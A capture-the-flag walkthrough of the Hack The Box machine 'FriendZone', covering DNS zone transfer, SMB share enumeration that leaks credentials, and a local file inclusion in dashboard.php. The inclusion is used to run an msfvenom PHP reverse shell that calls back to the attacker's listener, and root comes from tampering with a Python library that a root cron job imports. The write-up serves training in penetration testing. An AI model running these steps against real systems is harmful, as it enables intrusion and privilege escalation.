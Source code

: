 # FriendZone

FriendZone is a easy HTB lab that focuses on DNS enumeration, injection payloads and privilege escalation. In this walkthrough, we will go over the process of exploiting the services and gaining access to the root user.

### Recon
The first step in any penetration testing process is reconnaissance. We can start by running nmap scan on the target machine to identify open ports and services.

```
$ sudo nmap -p- -sV -sC 10.129.41.205

Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-10 22:44 GMT
Nmap scan report for 10.129.41.205
Host is up (0.092s latency).
Not shown: 65528 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a96824bc971f1e54a58045e74cd9aaa0 (RSA)
|   256 e5440146ee7abb7ce91acb14999e2b8e (ECDSA)
|_  256 004e1a4f33e8a0de86a6e42a5f84612b (ED25519)
53/tcp  open  domain      ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.11.3-1ubuntu1.2-Ubuntu
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Friend Zone Escape software
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  ssl/http    Apache httpd 2.4.29
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO
| Not valid before: 2018-10-05T21:02:30
|_Not valid after:  2018-11-04T21:02:30
|_http-title: 404 Not Found
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Hosts: FRIENDZONE, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -40m00s, deviation: 1h09m16s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-01-10T22:46:26
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: friendzone
|   NetBIOS computer name: FRIENDZONE\x00
|   Domain name: \x00
|   FQDN: friendzone
|_  System time: 2024-01-11T00:46:26+02:00
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: FRIENDZONE, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 126.91 seconds
```

Got following email `info@friendzoneportal.red` from the website.

Based on this and the nmap output, let's check we can get more domains with zone transfer.
```
$ dig axfr friendzone.red @10.129.41.205

; <<>> DiG 9.18.12-1~bpo11+1-Debian <<>> axfr friendzone.red @10.129.41.205
;; global options: +cmd
friendzone.red.		604800	IN	SOA	localhost. root.localhost. 2 604800 86400 2419200 604800
friendzone.red.		604800	IN	AAAA	::1
friendzone.red.		604800	IN	NS	localhost.
friendzone.red.		604800	IN	A	127.0.0.1
administrator1.friendzone.red. 604800 IN A	127.0.0.1
hr.friendzone.red.	604800	IN	A	127.0.0.1
uploads.friendzone.red.	604800	IN	A	127.0.0.1
friendzone.red.		604800	IN	SOA	localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 89 msec
;; SERVER: 10.129.41.205#53(10.129.41.205) (TCP)
;; WHEN: Wed Jan 10 22:57:36 GMT 2024
;; XFR size: 8 records (messages 1, bytes 289)
```

Adding new domains found to `/etc/hosts`.
```
sudo tee --append /etc/hosts <<< "10.129.41.205 uploads.friendzone.red hr.friendzone.red administrator1.friendzone.red friendzone.red"
```

Enumerating the SMB shares:
```
IP=10.129.41.205;
$ sudo crackmapexec smb $IP -u '' -p '' --shares;

SMB         10.129.41.205   445    FRIENDZONE       [*] Windows 6.1 (name:FRIENDZONE) (domain:) (signing:False) (SMBv1:True)
SMB         10.129.41.205   445    FRIENDZONE       [+] \: 
SMB         10.129.41.205   445    FRIENDZONE       [+] Enumerated shares
SMB         10.129.41.205   445    FRIENDZONE       Share           Permissions     Remark
SMB         10.129.41.205   445    FRIENDZONE       -----           -----------     ------
SMB         10.129.41.205   445    FRIENDZONE       print$                          Printer Drivers
SMB         10.129.41.205   445    FRIENDZONE       Files                           FriendZone Samba Server Files /etc/Files
SMB         10.129.41.205   445    FRIENDZONE       general         READ            FriendZone Samba Server Files
SMB         10.129.41.205   445    FRIENDZONE       Development     READ,WRITE      FriendZone Samba Server Files
SMB         10.129.41.205   445    FRIENDZONE       IPC$                            IPC Service (FriendZone server (Samba, Ubuntu))
```

Reading the data present in `general` SMB share.
```
$ sudo smbclient -N \\\\$IP\\general -U '';
smb: \> get creds.txt
```

Reading the `creds.txt` from the SMB share.
```
$ cat creds.txt 
creds for the admin THING:

admin:WORKWORKH*********@#
```

`https://administrator1.friendzone.red/` has login screen where we can use this credentials. After that we find different urls but finally we got injection using https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=timestamp and https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=login.

### User

Preparing the reverse shell that we can put in the Development SMB which we have write access on.

```
$ msfvenom -p php/reverse_php LHOST=10.10.14.140 LPORT=4444 -f raw > rev_shell.php

$ sudo smbclient -N \\\\10.129.41.234\\development -U 'admin%WORKWORKH*********@#';
smb> put rev_shell.php
```
Opening the pages https://administrator1.friendzone.red/dashboard.php?image_id=../../../Development/c.jpg&pagename=/etc/Development/rev_shell gives reverse shell.

```
$ nc -lvnp 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.41.234.
Ncat: Connection from 10.129.41.234:52164.
id   
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Getting information availabe to us:
```
$ cat mysql_data.conf

for development process this is the mysql creds for user friend
db_user=friend
db_pass=*********!0.213$
db_name=FZ
```

Logging in with credentials provided and getting the user flag:
```
$ ssh friend@10.129.41.234
*********!0.213$

$ cat user.txt
~~~~~~~~~~~~FLAG~~~~~~~~~~~~
```

### Privilege Escalation

Investigating using `pspy`, we can find that root is actually invoking the `reporter.py` file.

```
2024/01/11 05:00:01 CMD: UID=0     PID=17332  | /usr/bin/python /opt/server_admin/reporter.py 
2024/01/11 05:00:01 CMD: UID=0     PID=17331  | /bin/sh -c /opt/server_admin/reporter.py 
2024/01/11 05:00:01 CMD: UID=0     PID=17330  | /usr/sbin/CRON -f 
```

using `linpeas.sh` we found that apart from the files in the share we have /usr/lib/python2.7/os.py. 

Updated the code in `/usr/lib/python2.7/os.py` to execute `system("cp /root/root.txt /home/friend/dummy.txt")`

Getting the flag:
```
~$ cat dummy.txt
~~~~~~~~~~~~FLAG~~~~~~~~~~~~
```
